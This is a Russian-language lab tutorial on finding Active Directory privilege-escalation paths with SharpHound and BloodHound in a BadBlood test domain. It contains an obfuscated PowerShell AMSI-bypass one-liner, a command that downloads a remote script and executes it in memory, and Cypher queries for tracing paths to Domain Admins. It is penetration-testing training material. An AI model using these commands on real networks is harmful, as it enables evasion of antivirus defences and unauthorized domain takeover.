










После создания стенда представим, что нам доступна учетная запись "org\user", имеющая доступ по RDP к нашему тестовому серверу/рабочей станции. BadBlood рандомно сгенерил права доступа к объектам в LDAP (как и сами эти объекты), и нашей учетной записи с большой вероятностью тоже достались какие-то права. Для анализа возможных путей развития атаки соберем информацию об объектах домена с помощью SharpHound.

## SharpHound
https://github.com/BloodHoundAD/SharpHound  
Это наиболее полный "родной" сборщик к BloodHound и собирает максимум информации (не считая дополнения от Certipy).  
Готовый exe антивирусы будут воспринимать как вредоносный файл. Но в комплекте доступен PowerShell скрипт, в который включен энкоженый бинарь, который будет записан напрямую в оперативную память и запущен оттуда без сохранения на диск.  
Перед запуском потребуется отключить AMSI (Antimalware Scan Interface работает только в версиях Windows 10 и Server 2016 и выше, и не работает в PowerShell 2). Обходы регулярно прикрывают и придумывают новые, актуальные способы можно посмотреть, например, здесь: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell  
Как вариант:  
```
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```
Выполняем это командой PowerShell, например, с хоста, где у нас есть RDP-доступ, и запускаем SharpHound:  
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); Invoke-BloodHound -c All -s
```
Если отсутствует доступ в интернет с хоста, можно загрузить на свою Kali (или другой хост аттакера, который используется в стенде) и расшарить с помощью python http.server (или другим предпочитаемым способом).

После окончания работы скрипта в директории запуска (или указанной в опциях запуска) должен сохраниться zip-архив с данными в формате для BloodHound. Забираем его с хоста и перетаскиваем в запущенный интерфейс BloodHound. После загрузки нажать "Refresh Database Stats" или перезапустить BloodHound:  


Получаем граф вроде такого:


## Поиск векторов

Теперь мы можем выполнять различные запросы в BloodHound для изучения возможных путей получения доступа. Для начала пометим нашу учетную запись как Owned с помощью следующего запроса (в ly4k версии Ctrl+Enter для запуска):  
```
MATCH (u:User) WHERE u.name in ["USER@ORG.LOCAL"] SET u.owned = true RETURN u
```
(ДопИнфо) Учетки компьютеров можно помечать так:  
```
MATCH (c:Computer) WHERE c.name in ["S1.BANK.LOCAL","S2.BANK.LOCAL"] SET c.owned = true RETURN c
```
Рассмотрите и попробуйте различные предзаготовленные вопросы:



Для нашего случая в первую очередь интересен "Shortest Paths to Domain Admins from Owned Principals".  
При удачном раскладе найдется цепочка, например так:  


Здесь два GenericAll (BadBlood генерит только GenericAll) на учетки компов и 1 GenericAll на контейнер User.  
GenericAll на компьютеры наиболее удобно использовать для развития доступа с помощью вариантов:
- Получение пароля LAPS или GMSA (если используется)
- Shadow Credentials (для доменов с поддержкой msDS-KeyCredentialLink, т.е. где KDC >= Windows Server 2016)
- RBCD takeover для более старых доменов

GenericAll на контейнер User использовать не получится. Для дальнейшего исследования можно удалить (правой кнопкой, Delete Node) его из базы объектов (восстановить можно будет повторной загрузкой того же zip) и перезапустить запрос:

В цепочке появился GenericAll на OU, проэксплуатировать его можно с помощью создания наследуемой ACE на доступ к OU. Метод экслуатации описан тут: https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id37 (With GenericAll Over an OU).  
Также на https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html можно найти описание спобов эксплуатации других прав доступа, отображаемых BloodHound.

Другой пример полученной изначально в "Shortest Paths to Domain Admins from Owned Principals" цепочки (в другом домене):


ExecuteDCOM в общем случае и чаще всего ничего нам не дает (читать тут https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#executedcom)  
Кроме того, CanRDP - это непривилегированный доступ и требует повышения на хосте до админа для дальнейшего продвижения по цепочке.
Мы можем отфильтровать неприятные типы прав доступа с помощью фильтров:


С таким условием никаких цепочек "Shortest Paths to Domain Admins from Owned Principals" не находится.  
Чтобы повысить шансы, мы можем дополнительно пометить как High Value группы KEY ADMINS, ENTERPRISE KEY ADMINS. Следующий запрос также установит High Value для аккаунтов с Unconstrained delegation:
```
MATCH (dc:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectsid ENDS WITH "516" WITH COLLECT(dc) as domainControllers MATCH p = (d:Domain)-[:Contains*1..]->(c:Computer {unconstraineddelegation:true}) WHERE NOT c in domainControllers SET c.highvalue = true RETURN c
```
Затем можем использовать запрос для поиска кратчайшего пути от Owned до High Value (или до Domain Admins, если это ближе):
```
MATCH p=shortestPath((u {owned: true})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@ORG.LOCAL'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p
```
Также для дополнительного исследования возможных путей можно использовать запросы 'Shortest Path from Owned principals', 'Find Shortest Paths to Domain Admins', 'Shortest Paths to High Value Targets', но они полезны преимущественно в комбинации с другими атаками, когда есть потенциал дополнительно скомпрометировать какие-либо объекты. Еще кастомный запрос для исследования цепочек заданной длины от Owned объектов:
```
MATCH p=shortestPath((c {owned: true})-[*1..5]->(s)) WHERE NOT c = s RETURN p
```
К сожалению, фильтры не работают на кастомные запросы. Можно просто удалить неудобные переходы. Удалив ExecuteDCOM, получим такую цепочку:

Удалив CanRDP, получим "No data returned from query".  
Можно пойти другим путем, например, "Shortet Paths to Domain Admins from Kerberoastable Users":

Цепочки выглядят перспективно.